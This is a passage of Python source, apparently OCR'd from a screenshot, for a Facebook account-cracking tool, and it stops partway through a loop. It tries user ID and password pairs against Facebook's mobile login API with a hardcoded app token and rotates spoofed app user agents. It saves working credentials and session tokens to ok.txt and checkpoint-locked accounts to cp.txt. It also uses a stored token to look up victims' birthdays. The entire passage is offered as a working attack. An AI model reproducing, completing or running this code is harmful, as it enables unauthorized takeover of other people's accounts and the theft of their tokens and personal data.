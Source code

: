 		send = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers_)
		if "session_key" in send.text and "EAAA" in send.text:
			print("\r \x1b[1;32m[prem-ok] %s • %s • %s\033[0;97m"%(uid, pw, send.json()["access_token"]))
			ok.append("%s | %s"%(uid, pw))
			open("ok.txt","a").write("%s | %s\n"%(uid, pw))
			break
		elif "www.facebook.com" in send.json()["error_msg"]:
			try:
				token = open("login.txt", "r").read()
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print("\r\x1b[1;33m [prem-CP] %s • %s • %s %s %s\033[0;97m"%(uid, pw, day, month, year))
					cp.append("%s | %s"%(uid, pw))
					open("cp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					open("checkcp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r\x1b[1;33m [prem-CP] %s • %s\033[0;97m        "%(uid, pw))
			cp.append("%s | %s"%(uid, pw))
			open("cp.txt","a").write("%s | %s\n"%(uid, pw))
			open("checkcp.txt","a").write("%s | %s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1

def mbasic(uid, pwcuk):
	try:
		ua = open("ua", "r").read()
	except IOError:
		#ua = '[FBAN/FB4A;FBAV/222.0.0.48.113;FBBV/155323366;FBDM/{density=2.0,width=720,height=1360};FBLC/sr_RS;FBRV/156625696;FBCR/mt:s;FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.katana;FBDV/LDN-L21;FBSV/8.0.0;FBOP/19;FBCA/armeabi-v7a:armeabi;]'
		ua = random.choice(['[FBAN/FB4A;FBAV/222.0.0.48.113;FBBV/155323366;FBDM/{density=2.0,width=720,height=1360};FBLC/sr_RS;FBRV/156625696;FBCR/mt:s;FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.katana;FBDV/LDN-L21;FBSV/8.0.0;FBOP/19;FBCA/armeabi-v7a:armeabi;]',
         '[FBAN/FB4A;FBAV/246.0.0.49.121;FBBV/181448449;FBDM/{density=1.5,width=540,height=960};FBLC/en_US;FBRV/183119516;FBCR/TM;FBMF/vivo;FBBD/vivo;FBPN/com.facebook.katana;FBDV/vivo 1606;FBSV/6.0.1;FBOP/1;FBCA/armeabi-v7a:armeabi;]',
         '[FBAN/FB4A;FBAV/223.0.0.47.120;FBBV/156649505;FBDM/{density=2.625,width=1080,height=2034};FBLC/sv_SE;FBRV/0;FBCR/Telia;FBMF/HMD Global;FBBD/Nokia;FBPN/com.facebook.katana;FBDV/Nokia 7 plus;FBSV/9;FBOP/1;FBCA/armeabi-v7a:armeabi;]',
         'Mozilla/5.0 (Linux; Android 10; motorola one macro Build/QMDS30.47-33-2; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/93.0.4577.82 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/335.0.0.28.118;]'])
	global ua_de, ok, cp, loop, token
	rm = random.choice(['\x1b[1;91m', '\x1b[1;92m', '\x1b[1;93m', '\x1b[1;94m', '\x1b[1;95m', '\x1b[1;96m', '\x1b[1;97m'])
	sys.stdout.write(
		"\r %s[GK] %s/%s OK:-%s - CP:-%s "%(rm,loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwcuk: